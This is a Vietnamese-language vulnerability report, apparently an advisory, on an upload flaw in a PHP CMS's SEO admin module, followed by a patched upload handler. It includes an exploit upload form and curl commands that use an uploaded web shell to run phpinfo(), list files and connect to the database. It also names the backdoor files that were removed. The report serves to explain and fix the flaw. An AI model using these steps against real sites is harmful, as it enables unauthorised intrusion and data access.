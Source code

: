 ### 2. Upload Khai Thác
```html
<form method="POST" action="/admin/index.php?p=seo-co-ban&a=save" enctype="multipart/form-data">
    <input type="file" name="file" />
    <input type="submit" name="capnhat" value="Upload" />
</form>
```

### 3. Thực Thi Lệnh
```bash
# Tiết lộ thông tin
curl "http://target.com/sources/malicious.php?x=phpinfo()"

# Truy cập hệ thống file
curl "http://target.com/sources/malicious.php?x=scandir('.')"

# Truy cập cơ sở dữ liệu
curl "http://target.com/sources/malicious.php?x=mysql_connect('localhost','user','pass')"
```

## 🔧 Phân Tích Files Bị Ảnh Hưởng

### Files Gốc Có Lỗ Hổng
```
admin/templates/seo-co-ban/them_tpl.php - Lỗ hổng chính
admin/lib/function.php - Hàm check_shell() yếu
uploads/.htaccess - Bảo vệ không đủ
```

### Files Độc Hại Được Tìm Thấy
```
sources/23.php - eval() backdoor (ĐÃ XÓA)
uploads/files/666.php - Upload shell (ĐÃ XÓA)
```

## 🛡️ Hướng Dẫn Khắc Phục

### 1. Hành Động Ngay Lập Tức (QUAN TRỌNG)

#### Sửa Lỗi Cú Pháp
```php
// TRƯỚC (DỄ BỊ TẤN CÔNG)
if($_FILES['file']['type']='text/html' || $_FILES['file']['type']='application/json'){

// SAU (AN TOÀN)
if($_FILES['file']['type']=='text/html' || $_FILES['file']['type']=='application/json'){
    $allowed_extensions = array('.html', '.json', '.txt');
    $file_extension = strtolower(pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION));
    if(in_array('.'.$file_extension, $allowed_extensions)){
        $chec = check_shell(file_get_contents($_FILES['file']['tmp_name']));
        if($chec!=''){
            $safe_filename = basename($_FILES['file']['name']);
            $safe_filename = preg_replace('/[^a-zA-Z0-9._-]/', '', $safe_filename);
            move_uploaded_file($_FILES['file']['tmp_name'], '../'.$safe_filename);
        }
    }
}
```
